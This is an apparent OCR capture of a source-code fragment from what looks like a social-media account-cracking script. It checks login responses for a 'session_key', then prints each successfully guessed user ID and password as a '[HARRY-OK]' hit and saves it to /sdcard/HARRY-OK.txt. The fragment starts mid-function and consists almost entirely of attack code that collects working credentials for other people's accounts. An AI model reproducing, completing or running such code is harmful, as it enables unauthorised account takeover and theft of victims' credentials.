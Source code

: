                                 q = json.loads(po)

                                if 'session_key' in q:

                                        uid=str(q['uid'])

                                        try:

                                                okk=open('/sdcard/HARRY-OK.txt','r').read()

                                                if uid in okk:pass

                                                else:

                                                        print('\r\r\033[1;32m [HARRY-OK] '+uid+' | '+pas+'\033[1;97m')

                                                        open('/sdcard/HARRY-OK.txt','a').write(uid+'|'+pas+'\n')

                                                        oks.append(ids)

                                                        break

                                        except:

                                                print('\r\r\033[1;32m [HARRY-OK] '+uid+' | '+pas+'\033[1;97m')

                                                open('/sdcard/HARRY-OK.txt','a').write(uid+'|'+pas+'\n')

                                                oks.append(ids)

                                                break

                                else:

                                        continue

                        loop+=1

                except requests.exceptions.ConnectionError:

                        time.sleep(10)

                except Exception as e:

                        pass

                        

try:

        menu()

except requests.exceptions.ConnectionError:

        print('\n No internet connection ...')

        exit()

except Exception as e:pass

menu()
